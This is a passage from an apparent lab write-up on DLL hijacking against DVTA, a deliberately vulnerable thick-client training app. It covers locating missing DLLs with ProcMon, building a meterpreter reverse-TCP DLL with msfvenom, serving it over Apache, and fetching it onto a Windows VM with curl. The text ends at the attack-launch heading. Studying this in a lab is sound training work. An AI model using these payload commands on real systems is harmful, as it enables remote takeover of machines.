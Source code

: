 #### 1. Locate interesting DLL files with ProcessMonitor (or ProcMon)

We can try to find some DLL files that the app is requesting but not finding. And for that we can use ProcessMonitor and some filters like:

- Process Name is DVTA.exe
- Result is NAME NOT FOUND
- Path ends with dll.

![graphic](../img/tca-53.png)

If you login into the app, you will find some DLL files that can be used to try an exploitation:

![graphic](../img/tca-54.png)


#### 2. Crafting our malicious DLL and serving them to the machine
We will be assuming we will try to deceive the app with these 2 files:

* SECUR32.dll 
* DWrite.dll

We will open a kali machine, we will craft two dll payloads using msfvenom, we will copy them into our root apacher server and we will launch apache to serve those two files. Commands:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

# Copying payloads to apache root folder
sudo cp SECUR32.dll /var/www/html/
cp SECUR32.dll DWrite.dll
sudo cp DWrite.dll /var/www/html 

# starting apache
service apache2 start
```

![graphic](../img/tca-55.png)

Now, in the Windows 10 VM (maybe after disabling RealTime protection), we can retrieve those files with:

```cmd
curl http://10.0.2.15/SECUR32.dll --output C:\Users\admin\Desktop\SECUR32.dll
curl http://10.0.2.15/SECUR32.dll --output C:\Users\admin\Desktop\Dwrite.dll
```


#### 3. Launching the attack
